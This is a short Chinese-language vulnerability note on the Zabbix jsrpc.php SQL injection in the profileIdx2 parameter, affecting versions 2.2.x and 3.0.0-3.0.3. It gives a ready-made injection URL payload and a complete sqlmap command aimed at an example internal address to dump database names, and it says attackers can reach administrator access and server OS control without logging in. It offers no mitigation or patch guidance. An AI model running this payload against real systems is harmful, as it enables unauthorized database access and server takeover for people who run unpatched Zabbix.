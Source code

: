 ### 漏洞信息
1.影响版本：
   Zabbix v2.2.x, 3.0.0-3.0.3
2.详情： 
   zabbix的jsrpc的profileIdx2参数存在insert方式的SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统，也可通过script等功能轻易直接获取zabbix服务器的操作系统权限
3.Payload：
  /jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=& mark_color=1

  使用SQLMAP:
      python sqlmap.py -u "http://172.16.244.134/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=& mark_color=1" -p "profileIdx2" --technique E --dbs
  